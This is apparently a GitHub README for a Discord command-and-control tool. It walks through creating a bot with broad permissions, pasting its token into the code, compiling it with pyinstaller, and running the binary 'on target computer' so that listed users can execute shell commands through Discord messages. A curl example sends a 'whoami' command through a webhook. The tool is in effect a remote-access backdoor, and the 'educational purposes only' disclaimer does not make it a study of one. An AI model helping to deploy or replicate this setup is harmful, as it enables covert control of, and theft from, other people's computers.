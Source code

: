 # Requirements
Python3

Discord

Discord BOT

Discord Webhook (optional, only if you don't want to interact directly with the server)


### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py ( ```pip install discord``` )

pyinstaller ( ```pip install pyinstaller``` )


# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.

In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.

Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.

Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.

Add the discord name of the users that will send the commands.

Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 

Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 

The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.


### Webhook (Optional)

You also can use webhooks to send the commands, that way you won't interact directly with the server.

Go to Discord Server Settings > Integrations > Webhooks

Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.

Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```

Dont forget to add the webhook in the C2_CONTROLLERS list !!!

The Webhook username probably will be WebHookName#0000



## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do
